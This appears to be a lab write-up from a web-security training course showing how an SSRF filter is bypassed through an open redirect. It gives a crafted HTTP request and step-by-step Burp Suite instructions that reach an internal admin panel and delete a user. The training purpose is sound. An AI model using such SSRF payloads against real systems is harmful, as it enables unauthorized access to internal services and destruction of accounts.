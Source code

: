 exploit

```http
POST /product/stock HTTP/1.1
Host: 0a2700cc04b6f956c1795754002c0036.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```

<div class="component-solution is-expandable">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
                    </li>
                    <li>
                        Try tampering with the <code>stockApi</code> parameter and observe that it isn't possible to make the server issue the request directly to a different host.
                    </li>
                    <li>
                        Click "next product" and observe that the <code>path</code> parameter is placed into the Location header of a redirection response, resulting in an open redirection.
                    </li>
                    <li>
                        <p>
                            Create a URL that exploits the open redirection vulnerability, and redirects to the admin interface, and feed this into the <code>stockApi</code> parameter on the stock checker:
                        </p>
                        <code class="code-scrollable">/product/nextProduct?path=http://192.168.0.12:8080/admin</code>
                    </li>
                    <li>
                        Observe that the stock checker follows the redirection and shows you the admin page.
                    </li>
                    <li>
                         <p>
                             Amend the path to delete the target user:
                         </p>
                        <code class="code-scrollable">/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos</code>
                    </li>
                </ol>
            </div>
        </div>




#### Blind SSRF with out-of-band detection
